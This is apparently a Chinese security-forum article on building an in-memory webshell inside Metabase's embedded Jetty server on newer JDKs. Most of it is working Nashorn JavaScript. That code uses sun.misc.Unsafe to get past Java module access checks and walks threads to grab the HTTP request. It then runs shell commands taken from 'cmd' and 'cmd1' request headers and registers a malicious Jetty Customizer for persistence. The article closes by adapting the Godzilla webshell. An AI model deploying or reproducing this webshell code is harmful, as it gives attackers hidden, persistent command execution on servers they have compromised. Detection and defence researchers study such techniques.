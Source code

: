 

# Metabase 高版本 JDK 下 嵌入式 Jetty 中的 Customizer 内存马实现 - 先知社区

Metabase 高版本 JDK 下 嵌入式 Jetty 中的 Customizer 内存马实现

- - -

# 前言

之前在 Metabase 漏洞中实现了任意 js 脚本的执行，但是这并不优雅 每次都要发送完整的请求包。 
而且 Metabase 的部署方法比较特殊 它打包成了一个独立 jar 来运行。这意味着不能通过简单的写文件的方法来获得较为持久化的 webshell.  
那么如何实现一个内存马呢？

# 回显马构造

目标环境是 java 11.0.19+7 中间件是 Jetty 11.0.14  
sink 点是 nashorn js 引擎 下面例子都是 js nashorn 代码的实现  
因为 js 引擎没有传入 http 请求的上下文 所以只能通过遍历线程的方法来获取上下文。

```plain
var threadGroup = java.lang.Thread.currentThread().getThreadGroup();
var field = ThreadGroup.class.getDeclaredField("threads");
field.setAccessible(true);
```

发现 setAccessible 执行的时候抛出了异常

```plain
Caused by: java.lang.reflect.InaccessibleObjectException: 
Unable to make field java.lang.Thread[] java.lang.ThreadGroup.threads accessible:
module java.base does not "opens java.lang" to module jdk.scripting.nashorn.scripts
```

Java 9 及其以上的版本中 模块化系统 (module system) 被引入。模块化系统增加了对模块的隔离和访问控制，强制要求模块显式地声明对其他模块的公开与开放。  
因为这个新增的安全特性。所以不能像在低版本 java 一样简单的通过反射的方法来访问私有属性。 
但是仍然可以使用 unsafe 来强制访问私有属性绕过这个限制。 
sun.misc.Unsafe 是 JDK 原生提供的一个工具类，包含了危险的方法例如内存分配与回收、CAS 操作、类实例化、内存屏障等。正如其命名一样，由于其可以直接操作内存，执行底层系统调用，其提供的操作也是比较危险的。

```plain
function getunsafe() {
  var unsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
  unsafe.setAccessible(true);
  return unsafe.get(null);
}
```

[![](assets/1708095508-4a357a01b6157e8e2ee60ae8f13d5a3e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230819155401-8f6dedcc-3e65-1.png) 这里使用到其中了两个方法

```plain
//基于相对内存地址直接读取属性 不受所有修饰符限制
public Object getObject(Object o, long offset)
//获取非静态属性在它的类的内存分配中的位置 (内存偏移地址)
public long objectFieldOffset(Field f)
```

拿到 unsafe 之后就可以获取之前获取不到的 threads 了

```plain
var unsafe = getunsafe();
var group = java.lang.Thread.currentThread().getThreadGroup();
var f = group.getClass().getDeclaredField("threads");
var threads = unsafe.getObject(group, unsafe.objectFieldOffset(f));
```

通过调试找到 http 上下文 \_request 的位置  
[![](assets/1708095508-a6e1e85f93a1e600f9ae52b31b2b76fc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230819155401-8fbc2046-3e65-1.png)[![](assets/1708095508-10cc2d991eef377cc61ea145205a70f2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230819155402-901e80a6-3e65-1.png)  
((HttpChannelOverHttp)((HttpConnection)((Thread)this).threadLocals.table\[x\].value).\_channel).\_request  
不难发现\_request \_response 可以通过如下方式获取  
((HttpConnection)((Thread)this).threadLocals.table\[x\].value).getHttpChannel().getResponse()  
遍历 threads 找到 threadLocals->table->value 调用其中的 getHttpChannel 方法 就可以拿到我们需要的东西

```plain
for (var i = 0; i < threads.length; i++) {
    try {
        var f = threads[i].getClass().getDeclaredField("threadLocals");
        var threadLocals = unsafe.getObject(threads[i], unsafe.objectFieldOffset(f));
        var table = unsafe.getObject(threadLocals, unsafe.objectFieldOffset(threadLocals.getClass().getDeclaredField("table")));
        for (var j = 0; j < table.length; j++) {
            try {
                var valueField = unsafe.getObject(table[j], unsafe.objectFieldOffset(table[j].getClass().getDeclaredField("value")));
                var w = valueField.getHttpChannel().getResponse().getWriter();
                w.println(exec(valueField.getHttpChannel().getRequest().getHeader("cmd")));
                w.flush();
            } catch(e) {

}
        }
    } catch(e) {

}
}
```

[![](assets/1708095508-e646d96bb6483446c8a28b87b2bceb53.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230819155403-90804e08-3e65-1.png)  
到这里我们实现了一个回显马

# 内存马构造

那么如何实现一个内存马呢？ 
跟踪代码堆栈 发现在分发 http 请求的时候有这么一段代码  
[![](assets/1708095508-723a86d02c8689d38701e814f04ffc2d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230819155403-90e27308-3e65-1.png)

```plain
public boolean handle() {
......
this.dispatch(DispatcherType.REQUEST, () -> {
Iterator var1 = this._configuration.getCustomizers().iterator();
  do {
if (!var1.hasNext()) {
  this.getServer().handle(this);
return;
 }
      HttpConfiguration.Customizer customizer = (HttpConfiguration.Customizer)var1.next();
      customizer.customize(this.getConnector(), this._configuration, this._request);
  } 
    while(!this._request.isHandled());
});
......
```

jetty 有一类叫做 customizer 的 handler 看起来和 tomcat 的 Valve 类似

> HttpConfiguration.Customizer  
> 允许自定义请求对象的接口 对于特定的 HTTP 连接器配置。与过滤器不同，定制器是在提交请求进行处理之前应用，并且可以特定于接收请求的连接器。  
> 通常 customizer 执行以下任务：
> 
> -   处理可能由代理或负载均衡器注入的标头字段。
> -   可能来自连接/连接器的设置属性，例如 SSL 会话 ID
> -   如果请求已被卸载，则允许将请求标记为安全或经过身份验证 并通过 header、cookie 或其他带外机制进行通信
> -   设置由连接器确定的请求属性/字段请求已收到

实现一个 Customizer

```plain
var ProxyCustomizer = Java.extend(org.eclipse.jetty.server.HttpConfiguration.Customizer, {
    customize: function(connector, channelConfig, request) {
        if (request.getHeader("cmd1") != null) {
            request.getResponse().getWriter().println(exec(request.getHeader("cmd1")));
            request.setHandled(true);
        }
    }
});
```

将自定义恶意 Customizer 添加到 Configuration 中

```plain
valueField.getHttpChannel().getHttpConfiguration().addCustomizer(new ProxyCustomizer());
```

[![](assets/1708095508-0a3ac0cff58264ab58f53a52519de39b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230819155404-91353a5c-3e65-1.png) 现在已经实现了一个简单的 java 内存马  
之后照猫画虎 魔改一下哥斯拉的马 稍微封装一下 这里留给读者自己动手实现 最后用 unsafe 绕过限制 加载 class  
[![](assets/1708095508-5e85b51121dddd4dba6fe9857b4b16a3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230819155405-91968b72-3e65-1.png)

[![](assets/1708095508-34ac38b90ace5f1058fbea3b66b12c22.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230819155405-91d495a2-3e65-1.png)  
成功实现哥斯拉内存马  
[![](assets/1708095508-aaa7ce741017ff7f77eae1528b19f811.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230819155405-92259d08-3e65-1.png)[![](assets/1708095508-192d902aa096d2daef693fb22abdbc09.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230819155406-925fc15e-3e65-1.png)[![](assets/1708095508-a20639df255e9198c5efbfeca6bfa6d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230819155406-92a665a0-3e65-1.png)
